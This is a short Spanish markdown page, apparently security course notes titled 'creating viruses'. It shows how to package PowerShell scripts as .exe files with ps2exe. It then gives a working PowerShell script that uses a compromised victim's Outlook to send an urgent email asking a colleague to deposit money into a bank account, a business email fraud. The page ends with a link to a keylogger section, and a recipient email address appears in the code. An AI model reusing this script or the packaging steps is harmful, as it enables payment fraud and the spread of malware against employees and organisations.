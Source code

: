# CREACIÓN DE VIRUS

Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
Para mas dudas de con la instalación visita [ESTE ENLACE](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/).
## PHISING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.
```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```








## CREACIÓN DE KEYLOGGER (PYTHON)
https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md
